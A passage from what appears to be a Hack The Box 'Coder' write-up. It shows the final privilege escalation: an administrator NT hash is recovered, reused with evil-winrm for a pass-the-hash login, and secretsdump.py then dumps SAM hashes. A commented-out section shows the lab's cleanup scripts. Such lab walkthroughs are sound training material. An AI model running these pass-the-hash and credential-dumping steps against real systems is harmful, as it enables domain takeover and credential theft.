[*] Using principal: administrator@coder.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7
```

I can use the hash to login as Administrator via evil-winrm.

```bash
❯ evil-winrm -i 10.129.229.190 -u 'Administrator' -H 807726fcf9f188adc26eeafd7dc16bb7

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
coder\administrator
```

Alternatively, I can also use secretsdump.py from Impacket to dump hashes for all other users.

```bash
❯ secretsdump.py 'coder.htb/Administrator'@coder.htb -outputfile hashes -hashes ':807726fcf9f188adc26eeafd7dc16bb7'
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b26 - Copyright 2022 Fortra - forked by ThePorgs

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x14fde48e78a860a3522e88d90440ae18
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88c80d0cbc1a15acec2a8d26a259b623:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
---snip---
---snip---
```

**Pwned!!**

<!-- 

```bash
*Evil-WinRM* PS C:\Users\Administrator> ls Documents


    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/30/2022   7:41 AM          19951 ADCSTemplate.psm1
-a----        11/7/2022  11:37 AM           1174 house_cleaning.ps1
-a----        1/19/2023   1:29 PM            182 teamcity.ps1
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat house_cleaning.ps1
ipmo C:\users\Administrator\Documents\ADCSTemplate.psm1

function CT_clean() {
$default_templates = @("Coder-WebServer", "User", "UserSignature", "SmartcardUser", "ClientAuth", "SmartcardLogon", "EFS", "Administrator", "EFSRecovery", "CodeSigning", "CTLSigning", "EnrollmentAgent", "EnrollmentAgentOffline", "MachineEnrollmentAgent", "Machine", "DomainController", "WebServer", "CA", "SubCA", "IPSECIntermediateOnline", "IPSECIntermediateOffline", "OfflineRouter", "CEPEncryption", "ExchangeUser", "ExchangeUserSignature", "CrossCA", "CAExchange", "KeyRecoveryAgent", "DomainControllerAuthentication", "DirectoryEmailReplication", "Workstation", "RASAndIASServer", "OCSPResponseSigning", "KerberosAuthentication")
$current_templates = Get-ADCSTemplate
foreach ($x in $current_templates.Name) {
    if (-not($default_templates.Contains($x))) {
        Remove-ADCSTemplate -DisplayName $x -Confirm:$False
        }
      }
}

function CO_clean() {
    $computers = Get-ADComputer -Filter *
    foreach ($x in $computers.Name) {
    if (-not($x -eq 'DC01')) {
        Remove-ADComputer -Identity $x -Confirm:$False
        }
     }
}


*Evil-WinRM* PS C:\Users\Administrator\Documents> cat teamcity.ps1
while(((get-service teamcity).status -ne "Running") -and ((get-service tcbuildagent).status -ne "Running"))
{
    start-sleep -s 5
    start-service teamcity
    start-service tcbuildagent
}
```
 -->

---

# Related Links

- [ilspy-vscode - Visual Studio Marketplace](https://marketplace.visualstudio.com/items?itemName=icsharpcode.ilspy-vscode)
- [RijndaelManaged Class (System.Security.Cryptography) | Microsoft Learn](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged?view=net-8.0)
- [Running Personal Build | TeamCity On-Premises Documentation](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.html#Direct+Patch+Upload)
- [Windows Obfuscated Reverse Shells](https://gist.github.com/AbraXa5/81ec18193f1247628fa90ee9bbfe2f1f)
- [Super User Access | TeamCity On-Premises Documentation](https://www.jetbrains.com/help/teamcity/2022.10/super-user.html)
- [PowerShell – Encrypt and Decrypt using SecureString – Lab Core | The Lab of MrNetTek](https://eddiejackson.net/wp/?p=28189)
- [ConvertTo-SecureString (Microsoft.PowerShell.Security) - PowerShell | Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7.4)
- [PowerShell: Decrypt a Secure String – SID-500.COM](https://sid-500.com/2022/07/06/powershell-decrypt-a-secure-string/)
- [chvancooten/NimPackt-v1: Nim-based assembly packer and shellcode loader for opsec & profit](https://github.com/chvancooten/NimPackt-v1)
- [GoateePFE/ADCSTemplate: A PowerShell module for exporting, importing, removing, permissioning, publishing Active Directory Certificate Templates. It also includes a DSC resource for creating AD CS templates using these functions. This was built with the intent of using DSC for rapid lab builds. Could also work in production to move templates between AD CS environments.](https://github.com/GoateePFE/ADCSTemplate)
